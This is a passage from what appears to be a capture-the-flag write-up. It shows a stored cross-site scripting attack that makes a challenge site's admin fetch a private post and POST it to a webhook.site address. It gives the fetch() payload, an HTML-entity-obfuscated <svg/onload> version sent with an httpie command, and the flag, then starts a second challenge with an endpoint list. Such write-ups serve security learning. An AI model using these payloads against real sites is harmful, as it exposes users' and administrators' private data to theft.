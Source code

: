 We now get a request from the admin. But there is no flag in the cookies...
I then noticed the referer header in the request from admin:

`Referer: http://127.0.0.1:1234/index.php?page=post&id=221`

If we make the admin fetch this website and send the result back to us, we might get the flag.
The new plan is to use **fetch**:

```js
fetch('/index.php?page=post&id=604').then(r=>{return r.text()}).then(t=>{fetch('https://webhook.site/df13af1d-cb2e-4274-a2d2-56b28becad35', {method:'POST',body:t})})
```

This javascript posts the entire website back to us. When converting this to HTML entities, we can do the request to get the flag :)

```
http --form POST 'http://35.242.253.155:31810/index.php?page=newpost' Cookie:PHPSESSID=47117bffb9bc0406a138d082980b72f2 title='asd' description='<svg/onload=&#102;&#101;&#116;&#99;&#104;&lpar;&apos;&sol;&#105;&#110;&#100;&#101;&#120;&period;&#112;&#104;&#112;&quest;&#112;&#97;&#103;&#101;&equals;&#112;&#111;&#115;&#116;&amp;&#105;&#100;&equals;&#54;&#48;&#52;&apos;&rpar;&period;&#116;&#104;&#101;&#110;&lpar;&#114;&equals;&gt;&lcub;&#114;&#101;&#116;&#117;&#114;&#110;&#32;&#114;&period;&#116;&#101;&#120;&#116;&lpar;&rpar;&rcub;&rpar;&period;&#116;&#104;&#101;&#110;&lpar;&#116;&equals;&gt;&lcub;&#102;&#101;&#116;&#99;&#104;&lpar;&apos;&#104;&#116;&#116;&#112;&#115;&colon;&sol;&sol;&#119;&#101;&#98;&#104;&#111;&#111;&#107;&period;&#115;&#105;&#116;&#101;&sol;&#100;&#102;&#49;&#51;&#97;&#102;&#49;&#100;&#45;&#99;&#98;&#50;&#101;&#45;&#52;&#50;&#55;&#52;&#45;&#97;&#50;&#100;&#50;&#45;&#53;&#54;&#98;&#50;&#56;&#98;&#101;&#99;&#97;&#100;&#51;&#53;&apos;&comma;&#32;&lcub;&#109;&#101;&#116;&#104;&#111;&#100;&colon;&apos;&#80;&#79;&#83;&#84;&apos;&comma;&#98;&#111;&#100;&#121;&colon;&#116;&rcub;&rpar;&rcub;&rpar;//<'
```

FLAG: `CTF{3B3E64A81963B5E3FAC7DE0CE63966F03559DAF4B61753AADBFBA76855DB5E5A}`


### environ
It is a login page, but we cannot login, and there is no button to register an account.
After doing some enumeration we found a few endpoints that seems interesting

- /index.php
- /login
- /forgot-password
- /register
- /dashboard
- /assets
- /css
- /js
- /backup

At `/register` we can register an account and we get redirected to `/dashboard`
```
Environ is a tool to decrypt your deal messages

Sorry for the inconvenience but we’re performing some maintenance at the moment. If you need to you can always contact us, otherwise we’ll be back online shortly!

— The Team.
```
